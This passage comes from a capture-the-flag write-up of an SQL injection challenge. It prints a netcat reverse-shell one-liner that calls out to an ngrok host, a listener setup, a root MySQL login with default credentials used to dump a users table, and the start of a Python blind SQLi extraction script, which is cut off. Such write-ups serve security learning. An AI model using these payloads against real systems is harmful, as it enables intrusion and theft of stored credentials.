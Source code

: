 Now we can just call our file and specify the command and the password:

![[sqli3_exploit.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/sqli3_exploit.png)


We want a reverse shell on the machine, I used this one:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 4.tcp.eu.ngrok.io 14433 >/tmp/f`

Note that if you copy/paste this payload in your `cmd` parameter it won't work. You will have to `URL Encode` it first (and change the IP and port by your values ;) ) .

I already set up a listener using `nc -lvnp 4444` and a `ngrok` to be able to be accessible by the server (`ngrok tcp 4444`).

> Here we are using `ngrok` because we are not on the same network as the machine we are trying to hack. In CTF like `Try Hack Me` we don't need `ngrok` and can simply use `nc -lvnp 4444` because we will have an IP on the same network.
{: .prompt-tip}

As you can see, I got a shell and I beautified it:

![[sqli3_rev_shell.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/sqli3_rev_shell.png)

Now we can access the full database by simply connecting to `mysql` using default credentials. Those credentials can be found in the `PHP` source code of the web pages:

`mysql -u root -proot`

Now we can list databases, list tables inside the `loginsqli` and show all the values in the `users` table:

![[sqli3_mysql.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/sqli3_mysql.png)

We now have the password of `bob` (`superbob`) that is the flag to validate the challenge.

Here is a python code that will use an blind/error based SQLi. It performs a dichotomy to retrieve character by character the name of the database, the name of the tables, the name of the columns and the values:

```python
import requests
import time
import string
from math import ceil, floor


url_base = "http://ctf.insa-cvl.fr:1009/"

alphabet = r"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&'()*+,-./:;<=>?@[\]^_`{|}~"
timing = 1

results = []
offset = 0

while 1:

    candidats = [""]

    while candidats:

        #print(candidats)
        
        candidat = candidats.pop(0)
        index = len(candidat) + 1
        
        #print("My candidat:",candidat, "Len candidat:", index)
        print(candidat)
```